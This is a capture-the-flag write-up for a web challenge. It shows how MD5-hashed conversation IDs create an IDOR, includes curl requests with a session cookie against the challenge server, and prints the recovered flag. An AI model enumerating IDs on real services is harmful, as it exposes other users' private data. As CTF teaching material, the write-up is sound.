


## ChatBot-v2 -> 
# Category => Web

---

This time there wasn't any leak about the name of the admin in the js file.
I created an account, logged in ("tudor":"tudorache") and the page showed me a form where I can chat with a Bot that was only responding with one of this messages: 

``` js

const botResponses = [
                "Hello! How can I assist you today?",
                "I'm here to help you with your queries.",
                "Please provide more details.",
                "That sounds interesting!",
                "Thank you for reaching out!"
            ];

```

I wrote some input in chat and intercepted that request in burp: 



The cookie session id seems suspicious...



Haha, this is a Flask cookie: `base64(username).timestamp.signature`. This looks like a Session Forge challenge.

I tried to brute force the secret key using the wordlist "rockyou.txt" but it didn't work. The "problem" is that I was getting too far from the right approach.

Every conversation someone has with the both, it's registered in the  conversation list . (ex : Conversation 20, 25, 30 etc)

The "security" of the challenge page is just hashing the conversation id on the client with MD5. That creates an `IDOR`. I can access other users conversations by sending `conversation_id = MD5(integer)` to /load_conversation.

Let's test it real quick with conversation Id=1:

``` bash

curl 'http://chals.2025.chronos-security.ro:34330/load_conversation' \
  -H 'Content-Type: application/json' \
  -H 'Cookie: session=eyJ1c2VybmFtZSI6InR1ZG9yYmVsIn0.aQ8gGw.YlaiHxQZXuH0CuCJo8O9ZexfLew' \
  --data '{"conversation_id":"c4ca4238a0b923820dcc509a6f75849b"}'


{"messages":[{"message":"What is the capital of France?","response":"I can see why you'd ask that.","sender":"Alice","timestamp":"2025-11-08 09:43:45.881850"}]}

```
Nice! Now, only thing that's left is to bruteforce the conversation id. I'll start with 2 and go up to 30:

Found it for conversation id=9:

```bash
curl 'http://chals.2025.chronos-security.ro:34330/load_conversation' \
  -H 'Content-Type: application/json' \
  -H 'Cookie: session=eyJ1c2VybmFtZSI6InR1ZG9yYmVsIn0.aQ8gGw.YlaiHxQZXuH0CuCJo8O9ZexfLew' \
  --data '{"conversation_id":"45c48cce2e2d7fbdea1afc51c7c6ad26"}'


{"messages":[{"message":"CSCTF{y0u_c4n7_h1d3_fr0m_1D0R}","response":"Congrats on finding the flag","sender":"LazyTitan33","timestamp":"2025-11-08 09:43:45.881847"}]}

```